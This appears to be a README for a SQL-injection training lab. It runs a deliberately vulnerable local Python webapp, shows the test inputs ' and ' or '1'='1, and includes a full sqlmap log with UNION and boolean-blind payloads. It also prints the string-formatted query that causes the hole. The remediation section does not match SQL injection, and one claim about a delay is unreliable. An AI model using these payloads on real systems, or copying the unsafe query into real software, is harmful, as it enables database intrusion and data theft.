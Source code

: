 <p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/sql-injection/main/content/sql-injection.svg"></p>

An application enables users to interact with a database insecurely. A threat actor can exploit this feature by injecting a malicious query into a trusted web application. When the malicious query is executed, the application behaves shows errors. This type of behavior indicates that the attack is not blind

Clone this current repo recursively
```sh
git clone --recursive https://github.com/qeeqbox/sql-injection
```
Run the webapp using Python
```sh
python3 sql-injection/vulnerable-web-app/webapp.py
```
Open the webapp in your browser 127.0.0.1:5142
<p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/sql-injection/main/content/1.png"></p>
One of the routes in the web app is /user that takes an id as a parameter, it returns info about the requested user in JSON format
<p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/sql-injection/main/content/2.png"></p>
If you enter ', you will get: unrecognized token: "'''", which is an error indicating the user's route interacts with a database
<p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/sql-injection/main/content/3.png"></p>
The payload was executed successfully and caused a delay ' or '1'='1
<p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/sql-injection/main/content/4.png"></p>

```sh
user@users-Mac-mini vulnerable-web-app % sqlmap -u "http://127.0.0.1:5142/user?id=1" -p id --dbms=sqlite --batch
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.9.7#stable}
|_ -| . [']     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:39:38 /2025-07-26/

[13:39:38] [INFO] testing connection to the target URL
[13:39:38] [WARNING] turning off pre-connect mechanism because of incompatible server ('BaseHTTP/0.6 Python/3.13.5')
[13:39:38] [INFO] checking if the target is protected by some kind of WAF/IPS
[13:39:38] [INFO] testing if the target URL content is stable
[13:39:39] [INFO] target URL content is stable
[13:39:39] [WARNING] heuristic (basic) test shows that GET parameter 'id' might not be injectable
[13:39:39] [INFO] testing for SQL injection on GET parameter 'id'
[13:39:39] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[13:39:39] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable 
[13:39:39] [INFO] testing 'Generic inline queries'
[13:39:39] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[13:39:39] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[13:39:39] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[13:39:39] [INFO] target URL appears to have 7 columns in query
[13:39:39] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 34 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 1533=1533 AND 'rZkz'='rZkz

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: id=-6078' UNION ALL SELECT NULL,NULL,CHAR(113,120,98,113,113)||CHAR(98,89,100,100,105,70,90,116,73,114,112,70,101,121,79,80,73,86,73,76,79,67,119,108,102,106,109,66,90,77,120,112,103,99,87,103,79,113,99,79)||CHAR(113,120,118,107,113),NULL,NULL,NULL,NULL-- OsvX
---
[13:39:39] [INFO] testing SQLite
[13:39:39] [INFO] confirming SQLite
[13:39:39] [INFO] actively fingerprinting SQLite
[13:39:39] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[13:39:39] [INFO] fetched data logged to text files under '/Users/user/.local/share/sqlmap/output/127.0.0.1'

[*] ending @ 13:39:39 /2025-07-26/
```

## Code
When you request info about user using an known id, the get_user is called
```py
elif parsed_url.path == '/user' and "id" in get_request_data:
    self.send_content_raw(200, [('Content-type', 'application/json')], self.get_user(get_request_data["id"][0]))
    return
```
The get_user() function returns info about a user using their id without checking if the id is sanitized
```py
    def get_user(self,id_=None):
        ret = b""
        try:
            if id_ != None:
                with connect(DATABASE, isolation_level=None, check_same_thread=False) as connection:
                    cursor = connection.cursor()
                    results = cursor.execute("SELECT * FROM users WHERE id='%s'" % (id_)).fetchone()
                    return dumps(results).encode('utf-8')
        except Exception as e:
            ret = str(e).encode("utf-8")
        return ret
```
```
 
## Impact
Vary

## Risk
- Unauthorized Access
- System Compromise
- Operational Disruption
- Legal and Financial Damage
  - Compliance Failures
  - Reputation Damage

## Redemption
- Disable, remove or change default credentials
- Alternative Authentication Mechanisms

## ID
91f9b046-b802-425a-b71b-64c21c6b1c0f
